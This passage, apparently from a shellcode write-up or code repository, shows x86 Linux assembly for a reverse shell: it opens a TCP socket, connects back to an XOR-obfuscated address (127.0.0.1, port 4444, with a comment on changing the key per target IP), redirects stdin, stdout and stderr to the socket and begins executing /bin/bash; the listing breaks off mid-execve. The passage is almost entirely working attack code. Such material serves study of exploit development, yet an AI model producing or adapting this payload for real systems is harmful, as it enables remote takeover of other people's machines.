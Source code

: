 The final shellcode looks like this:

```nasm
global _start

section .text

_start:

    ; Zero registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; Create socket
    mov al, 0x66        ; sys_socketcall
    mov bl, 0x1         ; SYS_SOCKET
    push 0x6            ; int protocol -> IPPROTO_TCP
    push 0x1            ; int type -> SOCK_STREAM
    push 0x2            ; int domain -> AF_INET
    mov ecx, esp
    int 0x80            ; sys_socketcall (SYS_SOCKET)
    mov edi, eax        ; save socket fd

    ; Create addr struct
    mov eax, 0xfeffff80 ; 127.0.0.1 XORed
    mov ebx, 0xffffffff ; XOR key (should be changed depending on IP to avoid nulls)
    xor eax, ebx        ; 
    push edx            ; NULL padding
    push edx            ; NULL padding
    push eax            ; sin.addr (127.0.0.1)
    push word 0x5c11    ; Port 4444
    push word 0x2       ; AF_INET
    mov esi, esp

    ; Connect socket
    xor eax, eax
    xor ebx, ebx
    mov al, 0x66        ; sys_socketcall
    mov bl, 0x3         ; SYS_CONNECT
    push 0x10           ; socklen_t addrlen
    push esi            ; const struct sockaddr *addr
    push edi            ; int sockfd
    mov ecx, esp
    int 0x80

    ; Redirect STDIN, STDOUT, STDERR to socket
    xor ecx, ecx
    mov cl, 0x3         ; counter for loop (stdin to stderr)
    mov ebx, edi        ; socket fd

    dup2:
    mov al, 0x3f        ; sys_dup2
    dec ecx
    int 0x80            ; sys_dup2
    inc ecx
    loop dup2

    ; execve()
    xor eax, eax
    push 0x41687361     ; ///bin/bashA
    push 0x622f6e69
    push 0x622f2f2f
```